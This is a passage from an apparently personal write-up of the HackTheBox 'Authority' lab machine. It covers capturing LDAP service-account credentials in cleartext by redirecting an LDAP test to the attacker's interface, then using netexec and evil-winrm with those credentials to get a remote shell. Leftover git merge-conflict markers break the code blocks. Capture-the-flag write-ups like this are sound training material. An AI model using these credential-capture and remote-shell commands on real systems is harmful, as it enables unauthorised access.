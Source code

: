 ![alt text](/assets/Hackthebox/Authority/image-9.png)

Once we configure LDAP url to our interface and click on test LDAP profile, we can get the LDAP credentials in clear text.

<<<<<<< HEAD
```
=======
```bash
>>>>>>> d0813a4 (Updated posts)
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```

using netexec winrm we can test the credentials and we can see that we can get shell acess as svc_ldap.

<<<<<<< HEAD
```
=======
```bash
>>>>>>> d0813a4 (Updated posts)
$netexec winrm 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
WINRM       10.10.11.222    5985   AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
WINRM       10.10.11.222    5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)

```
### Evil-winrm

We got shell as svs_ldap using evil-winrm.
<<<<<<< HEAD
```
=======
```bash
>>>>>>> d0813a4 (Updated posts)
$evil-winrm -i 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
*Evil-WinRM* PS C:\Users\svc_ldap>
```

## Shell as Administrator
